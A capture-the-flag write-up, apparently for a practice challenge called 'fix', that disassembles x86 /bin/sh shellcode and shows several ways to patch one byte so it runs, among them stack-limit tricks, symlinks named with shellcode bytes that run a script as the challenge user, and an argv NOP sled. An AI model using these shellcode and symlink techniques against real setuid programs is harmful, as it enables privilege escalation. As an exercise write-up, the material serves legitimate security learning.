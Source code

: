### lazier focus direction
```
0:  31 c0                   xor    eax,eax  
2:  50                      push   eax  
3:  68 2f 2f 73 68          push   0x68732f2f  
8:  68 2f 62 69 6e          push   0x6e69622f "/bin//sh" 
d:  89 e3                   mov    ebx,esp  path
f:  50                      push   eax      argv[1]
```
change one byte of the above code to make `esp` bigger by at least 8 bytes, and keep the purpose of the program.

1. most probably don't change the `/bin//sh` pushes. moreover we must save it to `ebx` `esp`
2. it leaves you with
```
0:  31 c0                   xor    eax,eax  
2:  50                      push   eax  
... 
d:  89 e3                   mov    ebx,esp  path a must
f:  50                      push   eax      argv[1]
```


### simplification
let's simplify the problem... I could use the string passed in `argv`  and link it to cat flag :)

I could use `strace` to see to see the binary value 
```
ln -s /tmp/r12m/r.sh `echo -en "\x83\xc4\x10\x83\xec\x0cP\xe8\x8dc\x01"`
export PATH="/tmp/r12m:$PATH"
ln -s /home/fix/fix fixed
and run fixed in the /tmp/r12m directory
```

## writeups
* intended solution
	1. change 15th index of shellcode into 0xc9 (201)
	2. create `symlink` for a shell script input file:
	ln -s /tmp/fix8/a.sh `perl -e 'print"\x83\xc4\x10\x83\xec\x0c\x50\xe8\x4d\x61\x01"'`
	3. put whatever commands in a.sh. these commands will be executed as `fix_pwn`
* simply extend the stack 
	ulimit -s unlimited  (setting the stack size to be unlimited OMFG)
	offset 15 change to `pop esp` (92), using the pop we are saying that the stack is at `0x6e69622f` which is zeroed. 
* `nop` sled (jump to `argv`) 
	1. Put a big NOP sled and then exec /bin/sh shellcode in argv. spam argv to be very long.
	2. change 16th byte to 0x0f (15)
	
	the challenge shellcode now looks like this:
	
	```
	0:  31 c0                   xor    eax,eax
	2:  50                      push   eax
	3:  68 2f 2f 73 68          push   0x68732f2f
	8:  68 2f 62 69 6e          push   0x6e69622f
	d:  89 e3                   mov    ebx,esp
	f:  50                      push   eax
	10: 0f 89 e1 b0 0b cd       jns    0xcd0bb0f7
	16: 80                      .byte 0x80
	```
	